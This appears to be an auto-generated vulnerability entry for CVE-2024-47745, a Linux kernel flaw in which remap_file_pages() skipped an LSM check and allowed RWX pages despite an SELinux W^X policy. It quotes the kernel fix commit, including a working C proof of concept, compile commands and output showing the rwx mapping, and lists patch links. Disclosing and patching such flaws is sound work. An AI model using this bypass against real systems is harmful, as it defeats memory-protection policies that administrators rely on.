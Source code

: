 ### [CVE-2024-47745](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-47745)
![](https://img.shields.io/static/v1?label=Product&message=Linux&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=&color=brightgreen)
![](https://img.shields.io/static/v1?label=Version&message=1da177e4c3f41524e886b7f1b8a0c1fc7321cac2%20&color=brightgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=n%2Fa&color=blue)

### Description

In the Linux kernel, the following vulnerability has been resolved:mm: call the security_mmap_file() LSM hook in remap_file_pages()The remap_file_pages syscall handler calls do_mmap() directly, whichdoesn't contain the LSM security check. And if the process has calledpersonality(READ_IMPLIES_EXEC) before and remap_file_pages() is called forRW pages, this will actually result in remapping the pages to RWX,bypassing a W^X policy enforced by SELinux.So we should check prot by security_mmap_file LSM hook in theremap_file_pages syscall handler before do_mmap() is called. Otherwise, itpotentially permits an attacker to bypass a W^X policy enforced bySELinux.The bypass is similar to CVE-2016-10044, which bypass the same thing viaAIO and can be found in [1].The PoC:$ cat > test.cint main(void) {	size_t pagesz = sysconf(_SC_PAGE_SIZE);	int mfd = syscall(SYS_memfd_create, "test", 0);	const char *buf = mmap(NULL, 4 * pagesz, PROT_READ | PROT_WRITE,		MAP_SHARED, mfd, 0);	unsigned int old = syscall(SYS_personality, 0xffffffff);	syscall(SYS_personality, READ_IMPLIES_EXEC | old);	syscall(SYS_remap_file_pages, buf, pagesz, 0, 2, 0);	syscall(SYS_personality, old);	// show the RWX page exists even if W^X policy is enforced	int fd = open("/proc/self/maps", O_RDONLY);	unsigned char buf2[1024];	while (1) {		int ret = read(fd, buf2, 1024);		if (ret <= 0) break;		write(1, buf2, ret);	}	close(fd);}$ gcc test.c -o test$ ./test | grep rwx7f1836c34000-7f1836c35000 rwxs 00002000 00:01 2050 /memfd:test (deleted)[PM: subject line tweaks]

### POC

#### Reference
- https://git.kernel.org/stable/c/0f910dbf2f2a4a7820ba4bac7b280f7108aa05b1
- https://git.kernel.org/stable/c/3393fddbfa947c8e1fdcc4509226905ffffd8b89
- https://git.kernel.org/stable/c/49d3a4ad57c57227c3b0fd6cd4188b2a5ebd6178
- https://git.kernel.org/stable/c/ce14f38d6ee9e88e37ec28427b4b93a7c33c70d3
- https://git.kernel.org/stable/c/ea7e2d5e49c05e5db1922387b09ca74aa40f46e2

#### Github
- https://github.com/fkie-cad/nvd-json-data-feeds
- https://github.com/w4zu/Debian_security

